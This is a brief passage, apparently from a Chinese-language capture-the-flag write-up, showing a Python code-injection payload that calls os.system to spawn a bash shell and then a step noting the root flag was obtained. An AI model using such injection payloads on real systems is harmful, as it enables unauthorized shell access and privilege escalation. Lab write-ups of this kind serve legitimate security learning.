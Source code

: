         **144+__import__("os").system("/bin/bash")
        ```
- 取得 root flag
    - ![](https://i.imgur.com/1bfNnlt.png)